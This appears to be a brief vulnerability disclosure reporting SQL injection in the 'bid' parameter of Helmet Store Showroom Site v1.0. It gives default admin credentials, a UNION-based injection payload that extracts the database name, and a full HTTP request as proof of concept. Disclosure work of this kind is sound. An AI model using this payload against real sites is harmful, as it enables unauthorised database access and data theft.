 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/?page=product_per_brand&bid=

Vulnerability location: /hss/?page=product_per_brand&bid=, id

dbname =hss_db,length=6

[+] Payload: /hss/?page=product_per_brand&bid=-2%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> bid


```sql
GET /hss/?page=product_per_brand&bid=-2%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069545-6895c7ab-4374-403d-8b78-49ae0dc044da.png)
